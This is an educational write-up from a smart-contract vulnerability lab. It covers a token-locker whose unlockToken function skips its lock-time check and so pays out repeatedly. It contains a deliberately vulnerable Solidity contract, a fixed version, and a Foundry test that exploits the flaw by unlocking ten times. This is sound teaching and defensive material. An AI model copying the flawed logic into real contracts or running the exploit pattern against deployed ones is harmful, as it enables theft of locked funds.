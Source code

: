 **Name**: Incorrect sanity checks - Multiple Unlocks Before Lock Time Elapse

**Description**: The bug lies in the unlockToken function, which lacks a check to ensure that block.timestamp is larger than locktime. This allows tokens to be unlocked multiple times before the lock period has elapsed, potentially leading to significant financial loss.

**Mitigation**:

Add a require statement to check that the current time is greater than the lock time before the tokens can be unlocked.

or fix:

```
uint256 amount = locker.amount;
if (block.timestamp > locker.lockTime) {
IERC20(locker.tokenAddress).transfer(msg.sender, amount);
locker.amount = 0;
}
```

**REF**: https://twitter.com/1nf0s3cpt/status/1681492477281468420

https://blog.decurity.io/dx-protocol-vulnerability-disclosure-bddff88aeb1d

**Vulnerable Contract:**

```
contract VulnerableBank {
    struct Locker {
        bool hasLockedTokens;
        uint256 amount;
        uint256 lockTime;
        address tokenAddress;
    }

    mapping(address => mapping(uint256 => Locker)) private _unlockToken;
    uint256 private _nextLockerId = 1;

    function createLocker(
        address tokenAddress,
        uint256 amount,
        uint256 lockTime
    ) public {
        require(amount > 0, "Amount must be greater than 0");
        require(lockTime > block.timestamp, "Lock time must be in the future");
        require(
            IERC20(tokenAddress).balanceOf(msg.sender) >= amount,
            "Insufficient token balance"
        );

        // Transfer the tokens to this contract
        IERC20(tokenAddress).transferFrom(msg.sender, address(this), amount);

        // Create the locker
        Locker storage locker = _unlockToken[msg.sender][_nextLockerId];
        locker.hasLockedTokens = true;
        locker.amount = amount;
        locker.lockTime = lockTime;
        locker.tokenAddress = tokenAddress;

        _nextLockerId++;
    }

    function unlockToken(uint256 lockerId) public {
        Locker storage locker = _unlockToken[msg.sender][lockerId];
        // Save the amount to a local variable
        uint256 amount = locker.amount;
        require(locker.hasLockedTokens, "No locked tokens");

        // Incorrect sanity checks.
        if (block.timestamp > locker.lockTime) {
            locker.amount = 0;
        }

        // Transfer tokens to the locker owner
        // This is where the exploit happens, as this can be called multiple times
        // before the lock time has elapsed.
        IERC20(locker.tokenAddress).transfer(msg.sender, amount);
    }
}
```

Bug fixed Contract: (Purple Words)

```
contract FixedeBank {
    struct Locker {
        bool hasLockedTokens;
        uint256 amount;
        uint256 lockTime;
        address tokenAddress;
    }

    mapping(address => mapping(uint256 => Locker)) private _unlockToken;
    uint256 private _nextLockerId = 1;

    function createLocker(
        address tokenAddress,
        uint256 amount,
        uint256 lockTime
    ) public {
        require(amount > 0, "Amount must be greater than 0");
        require(lockTime > block.timestamp, "Lock time must be in the future");
        require(
            IERC20(tokenAddress).balanceOf(msg.sender) >= amount,
            "Insufficient token balance"
        );

        // Transfer the tokens to this contract
        IERC20(tokenAddress).transferFrom(msg.sender, address(this), amount);

        // Create the locker
        Locker storage locker = _unlockToken[msg.sender][_nextLockerId];
        locker.hasLockedTokens = true;
        locker.amount = amount;
        locker.lockTime = lockTime;
        locker.tokenAddress = tokenAddress;

        _nextLockerId++;
    }

    function unlockToken(uint256 lockerId) public {
        Locker storage locker = _unlockToken[msg.sender][lockerId];

        require(locker.hasLockedTokens, "No locked tokens");
        require(block.timestamp > locker.lockTime, "Tokens are still locked"); // Bug fixed
        // Save the amount to a local variable
        uint256 amount = locker.amount;

        // Mark the tokens as unlocked
        locker.hasLockedTokens = false;
        locker.amount = 0;

        // Transfer tokens to the locker owner
        IERC20(locker.tokenAddress).transfer(msg.sender, amount);
    }
}
```

***\*How to Test:\****

forge test --contracts src/test/Incorrect_sanity_checks.sol -vvvv

```
// Test function to demonstrate a vulnerability in the VulnerableBankContract.
function testVulnerableBank() public {
    // Log the current timestamp.
    console.log("Current timestamp", block.timestamp);

    // Initiate a "prank" with "alice" through the virtual machine (vm).
    // The specific behavior of the prank function is not evident from the provided code snippet.
    vm.startPrank(alice);

    // Approve the VulnerableBankContract to spend 10000 tokens from BanksLPContract on behalf of "alice."
    BanksLPContract.approve(address(VulnerableBankContract), 10000);

    // Log the balance of BanksLPContract for "alice" before creating the locker.
    console.log(
        "Before locking, my BanksLP balance",
        BanksLPContract.balanceOf(address(alice))
    );

    // Create a locker for 10000 tokens in the VulnerableBankContract, with a lock duration of 86400 seconds (1 day).
    VulnerableBankContract.createLocker(
        address(BanksLPContract),
        10000,
        86400
    );

    // Log the balance of BanksLPContract for "alice" before exploiting the locker.
    console.log(
        "Before exploiting, my BanksLP balance",
        BanksLPContract.balanceOf(address(alice))
    );

    // Exploit the locker in VulnerableBankContract by calling the 'unlockToken' function 10 times.
    // The exact vulnerability being exploited is not evident from the provided code snippet.
    for (uint i = 0; i < 10; i++) {
        VulnerableBankContract.unlockToken(1);
    }

    // Log the balance of BanksLPContract for "alice" after exploiting the locker.
    console.log(
        "After exploiting, my BanksLP balance",
        BanksLPContract.balanceOf(address(alice))
    );
}
```

Red box: unlocked multiple times before the lock period has elapsed. Purple box: issue fixed.

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F2a5f723a-59c1-40c1-95a8-2da1c9867ef1%2FUntitled.png?table=block&id=e7201e51-76b4-4575-a7e7-1ca2dc8d1fd3&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

